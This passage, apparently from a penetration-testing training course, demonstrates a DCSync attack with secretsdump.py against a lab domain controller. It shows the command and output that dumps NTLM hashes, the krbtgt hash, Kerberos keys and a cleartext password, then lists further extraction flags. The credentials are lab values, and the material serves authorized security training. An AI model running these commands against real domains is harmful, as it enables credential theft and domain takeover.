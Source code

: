 Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

#### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py

  DCSync

```shell-session
trmchale@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user. Other useful options include `-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The `-user-status` is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:
